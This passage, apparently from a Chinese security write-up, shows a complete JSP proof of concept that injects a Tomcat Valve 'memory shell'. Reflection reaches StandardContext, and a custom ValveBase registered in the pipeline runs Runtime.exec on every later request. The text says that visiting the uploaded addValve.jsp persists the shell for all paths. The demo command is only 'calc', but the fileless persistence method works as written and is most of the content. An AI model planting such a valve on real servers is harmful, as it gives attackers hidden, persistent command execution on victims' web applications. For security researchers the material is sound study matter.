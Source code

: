 最后实现内存马的注入

```jsx
<%
  standardContext.getPipeline().addValve(new shellValve());
  out.println("success");
%>
```

**最终poc如下**

```jsx
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="org.apache.catalina.core.ApplicationContext" %>
<%@ page import="org.apache.catalina.core.StandardContext" %>
<%@ page import="org.apache.catalina.valves.ValveBase" %>
<%@ page import="org.apache.catalina.connector.Request" %>
<%@ page import="org.apache.catalina.connector.Response" %>
<%@ page import="java.io.IOException" %><%--
  Created by IntelliJ IDEA.
  User: Andu1n
  Date: 2025/2/21
  Time: 11:15
  To change this template use File | Settings | File Templates.
--%>
<%@ page contentType="text/html;charset=UTF-8" language="java" %>
<html>
<head>
    <title>Title</title>
</head>
<body>
<%
  ServletContext servletContext = request.getSession().getServletContext();
  Field appctx = servletContext.getClass().getDeclaredField("context");
  appctx.setAccessible(true);
  ApplicationContext applicationContext = (ApplicationContext) appctx.get(servletContext);

  Field stdctx = applicationContext.getClass().getDeclaredField("context");
  stdctx.setAccessible(true);
  StandardContext standardContext = (StandardContext) stdctx.get(applicationContext);

%>

<%!
  public class shellValve extends ValveBase {
    @Override
    public void invoke(Request request, Response response) throws IOException, ServletException {
      Runtime.getRuntime().exec("calc");
    }
  }
%>

<%
  standardContext.getPipeline().addValve(new shellValve());
  out.println("success");
%>

</body>
</html>

```

启动tomcat服务后，访问我们上传的`addValve.jsp`后，Vlave内存马就被成功注入，后续访问任意路径，都会触发我们的Valve内存马

![](https://cdn.nlark.com/yuque/0/2025/png/44744277/1740108765334-e82c69bb-b0be-466e-8eb7-a2f1fc84acae.png)

